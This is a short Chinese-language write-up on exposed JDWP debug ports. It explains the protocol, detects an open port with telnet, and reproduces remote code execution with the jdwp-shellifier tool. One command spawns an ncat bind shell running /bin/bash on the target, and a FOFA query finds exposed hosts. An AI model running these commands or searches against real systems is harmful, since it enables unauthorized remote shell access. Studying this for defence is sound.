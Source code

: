 ### 原理介绍：

JDWP（Java DEbugger Wire Protocol）：即Java调试线协议，是一个为Java调试而设计的通讯交互协议，它定义了调试器和被调试程序之间传递的信息的格式。说白了就是JVM或者类JVM的虚拟机都支持一种协议，通过该协议，Debugger 端可以和 target VM 通信，可以获取目标 VM的包括类、对象、线程等信息，在调试Android应用程序这一场景中，Debugger一般是指你的 develop machine 的某一支持 JDWP协议的工具例如 Android Studio 或者 JDB，而 Target JVM是指运行在你mobile设备当中的各个App（因为它们都是一个个虚拟机 Dalvik 或者 ART），JDWP Agent一般负责监听某一个端口，当有 Debugger向这一个端口发起请求的时候，Agent 就转发该请求给 target JVM并最终由该 JVM 来处理请求，并把 reply 信息返回给 Debugger 端。

### 简单检测方法：  
```
telnet ip port
```
查看回显，如果出现“JDWP-Handshake”，则证明漏洞存在。如下图  
[image](./pic/1.png)  

### 漏洞复现：
借助工具：https://github.com/IOActive/jdwp-shellifier  
用法：
```
python2 ./jdwp-shellifier.py -t my.target.ip -p 1234
python2 ./jdwp-shellifier.py -t my.target.ip -p 1234 --cmd "ncat -v -l -p 1234 -e /bin/bash"
```
### 目标搜索
fofa上搜索目标
```
banner="jdwp"
```
试了几个都没有漏洞，暂不批量检测了
